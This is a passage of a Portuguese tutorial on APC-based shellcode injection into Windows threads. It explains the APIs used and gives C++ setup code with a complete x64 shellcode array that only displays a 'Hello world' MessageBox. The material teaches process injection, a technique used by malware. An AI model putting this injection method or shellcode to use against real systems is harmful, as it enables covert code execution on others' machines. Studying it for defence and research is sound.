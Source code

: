 No nosso código, utilizaremos principalmente funções da `windows.h` para alocar memória e injetar o shellcode e a `tlhelp32.h` para realizarmos um "snapshot" do estado atual do sistema, ação que permite a navegação por processos e threads. As funções importadas da `iostream` são opcionais e servirão para debugging, e utilizaremos sempre que possível as versões de funções que tratam dados UTF-16 devido a uma melhor compatibilidade com certas estruturas que usaremos no código.

Utilizaremos uma diretiva de pré-processamento para definirmos uma macro (`THREAD_INJECTION_LIMIT`) que limitará a quantidade de threads que devem sofrer injeção. Isso é importante para termos mais controle sobre como a injeção é realizada, buscando evitar crashes. Porém, ao definirmos um limite, é possível que uma thread alertable não tenha o shellcode incluído nas sua fila de APCs. Aumente o valor caso a injeção não funcione.

Definiremos uma variável global para guardar nosso shellcode x64, que, nesse caso, tem apenas a função de executar uma MessageBox. [Link](https://gist.github.com/kkent030315/b508e56a5cb0e3577908484fa4978f12) para o gist original do shellcode.

```cpp
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

#define THREAD_INJECTION_LIMIT 2

// Spawns a MessageBox
unsigned char shellcode[] = \
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
```

